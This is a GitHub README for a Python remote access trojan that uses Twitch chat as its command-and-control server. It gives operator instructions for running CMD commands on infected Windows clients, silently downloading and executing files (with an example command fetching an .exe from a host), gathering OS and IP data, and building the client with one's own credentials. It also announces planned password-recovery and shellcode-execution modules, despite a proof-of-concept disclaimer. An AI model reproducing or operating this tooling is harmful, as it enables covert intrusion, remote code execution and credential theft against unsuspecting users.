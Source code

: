 # TwitchCommand [![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square)](http://makeapullrequest.com) [![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl.svg?v=103)](https://opensource.org/licenses/GPL-3.0/) [![Canadian Mental Health Association](https://i.imgur.com/BymnzEX.png)](https://cmha.ca/donate)
A remote administration tool that uses Twitch Chat as a Command and Control server. This program connects clients to a designated Twitch Chat and listens for commands.

# Requirements
- Twitch account.
- Python 3.x
- PyInstaller (will be required with the next build.)

# Disclaimer
The usage of this program directly violates the Twitch Developer Agreement. The usage of it will lead to the termination of your account and possible further action based on the severity of its usage.

This program was created as a Proof of Concept and it is not intended to be used in a malicious way. I am not responsible for any damages or criminal charges that come from using it.

# Features/Modules
`cmd`  Windows CMD commands. Structured as `cmd command`

`de` Download and execute. File is removed after execution. Structured as `de link`. May throw `Win5 Error` if the user is prompted for UAC. Now supports all file types.

`visit`  Silently visits a website. Structured as `visit link`

`exit` Disconnects the tageted client(s). This does not remove the file. Structured as `exit`

`info` Returns the clients OS (including exact version) and IP address. Structured as `info`

`mbox` Opens a messagebox on the users pc. Structured as `mbox message`


# Usage
Navigate to the twitch page of the channel you selected when making the program.

Upon connection to a server, a new client will announce its presence and client name. If you would like to view a list of all connected clients please use the list command. 

![New Connection.](https://i.imgur.com/fT6yice.png)

`!list`

![List connections.](https://i.imgur.com/RY81sGt.png)

This program also features different modules which can be used.

`!act client command action`

- Act is the keyword to use a command for the client.
- Client specifies a singular user or a group. You can use a specific name (ex: DESKTOP-TEST) or 'all'.
- Command specifies the intended module to use.
- Action is what to use with the selected module. For example 'start.' will open the current directory on the clients PC when using CMD.

An example cmd command would be:

`!act all cmd start.`

![Client action.](https://i.imgur.com/g7d5P83.png)

This would open the current directory on every connected clients PC. Note that the photo is from an older version and True is no longer required.

An example download+execute command would be:

`!act DESKTOP-TEST de https://example.com/files/file.exe`


# Creating the program.
### Coming soon: a builder.
The requirements list is currently not necessary but will be for future builds.

Making the program is quite simple. 
- Change the NICK value on line 11 to your Twitch username.
- Change the PASS value on line 12 to your OAuth password (acquire it here: https://twitchapps.com/tmi/)
- Change the CHAN value on line 13 to a desired channel to listen in. It's recommended to use your personal twitch chat as a streamer may ban an account they see posting odd messages and commands.
- CLIENT_ID and the email information are currently not in use. The email functions will be used for password recovery and the CLIENT_ID will be a Imgur API client ID for screenshot uploads.

# Upcoming features
- Password recovery module.
- Screenshot module.
- Shellcode execution module (maybe.)
- A builder to simplify making the program as well as making it an exe.
- Command line based control module as an alternative to the twitch website.

# Acknowledgements
- n00py and Coalfire Research for inspiration from the [Slackor project.](https://github.com/Coalfire-Research/Slackor)
- nathanlopez from the Stitch project for the `mbox` [code.](https://github.com/nathanlopez/Stitch/blob/master/PyLib/popup.py)
